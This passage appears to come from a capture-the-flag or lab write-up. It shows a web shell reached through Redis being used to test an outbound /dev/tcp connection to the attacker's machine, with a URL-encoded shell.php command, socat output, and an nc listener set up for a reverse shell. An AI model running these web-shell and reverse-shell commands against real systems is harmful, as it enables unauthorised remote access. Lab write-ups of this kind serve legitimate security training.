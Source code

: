 ![cyberchef](images/webshell_redis_cyberchef.png)

```bash
bash -c 'echo > /dev/tcp/172.19.0.3/5555'
```

```bash
http://172.19.0.4/8924d0549008565c554f8128cd11fda4/shell.php?cmd=bash%20%2Dc%20%27echo%20%3E%20%2Fdev%2Ftcp%2F172%2E19%2E0%2E3%2F5555%27
```

![webshell redis socat tcp test](images/webshell_redis_socat_tcp_test.png)

```bash
$ socat TCP-LISTEN:5555,reuseaddr,fork SYSTEM:"echo 'Connection from: $SOCAT_PEERADDR:$SOCAT_PEERPORT'; sleep 10" 
2024/08/23 02:04:35 socat[473838] W exiting on signal 15
2024/08/23 02:06:53 socat[474995] W exiting on signal 15
2024/08/23 02:15:32 socat[479579] W exiting on signal 15   <<<<=====
```

I believe now we know the redirect works and we can try to set a `nc` listener on our kali to try to get a reverse shell.

```bash
$ rlwrap -cAr nc -nlvp 5555
listening on [any] 5555 ...
```

![Cyberchef rev shell](images/webshell_redis_cyberchef_revshell.png)
